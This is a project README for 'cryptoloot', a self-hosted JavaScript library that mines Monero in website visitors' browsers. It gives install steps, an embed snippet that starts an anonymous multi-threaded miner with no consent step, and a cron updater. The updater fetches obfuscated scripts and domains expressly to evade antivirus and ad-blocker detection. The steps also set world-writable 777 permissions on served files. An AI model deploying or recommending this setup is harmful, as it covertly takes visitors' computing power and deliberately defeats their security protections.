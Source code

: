 # cryptoloot

Self Hosted Library for CryptoLoot v2.0
=======================================

Working with Monero v8/v9 (Cryptonight v2) October 18th Hardfork Release
========================================================================


How to Install:
1) Download https://github.com/Crypto-Loot/cryptoloot/archive/master.zip and uncompress at yoursite.com home directory
or alternatively use ```git clone https://github.com/Crypto-Loot/cryptoloot.git```
2) Register at https://crypto-loot.com to get your public site ID, you'll need this for the next step.
3) Add the script to your website, preferably ABOVE </body> tag, and not within the <head></head> tags. Make sure to edit YOUR_PUBLIC_KEY with your site ID from crypto-loot.com:
```text
<script src="lib/crypta.js"></script>
<script>
            var miner=new CRLT.Anonymous('YOUR_PUBLIC_KEY', {
                threads:4,autoThreads:false,throttle:0.2,coin: "xmr"
            });
        miner.start();
</script>
```
NOTE: Also, edit your site key above from the one you have on https://crypto-loot.com

4) All set. Now just send some traffic!

5) Optional: Set to automatically update (to stay up to date with the latest obfuscated scripts and domains to avoid AV/Adblocker detection):
Make sure to install php-curl extension on your server if it does not exist: 

***CentOS:***
```text
yum install php-curl
```
***Debian:***
```text
apt-get install php-curl
```
Change the permissions of these threee files to 777 so they can be overwritten on update:
```text
chmod 777 lib/crypta.js lib/version.txt
```
Install the cron to check for updates once every 12 hours:
```text
0 */12 * * * php /var/www/html/website/updater.php >> /var/www/html/website/cl_log.txt
```

Supported Coins:
===============
xmr: ```coin: xmr```
upx: ```coin: upx```
Mix of both upx & xmr (50/50): ```coin: xmrupx```

Have any questions?
===================
Feel free to contact as at https://crypto-loot.com

